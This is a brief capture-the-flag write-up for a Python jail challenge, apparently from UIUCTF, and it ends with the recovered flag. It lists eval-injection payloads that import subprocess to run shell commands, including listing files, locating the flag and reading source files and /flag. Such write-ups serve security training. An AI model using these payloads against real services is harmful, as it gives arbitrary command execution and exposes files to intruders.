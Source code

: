 ![](2022-07-30-23-28-18.png)

You have to exit the jail of a python program
The program only does eval to get the values so with the following you get the flag:

print(__import__("subprocess").getoutput("ls"))
print(__import__("subprocess").getoutput("cat main.py"))
print(__import__("subprocess").getoutput("cat README.md"))
print(__import__("subprocess").getoutput("find / -name flag"))
print(__import__("subprocess").getoutput("cat /flag"))
uiuctf{na1v3_0r_mal1ci0u5_chang3?}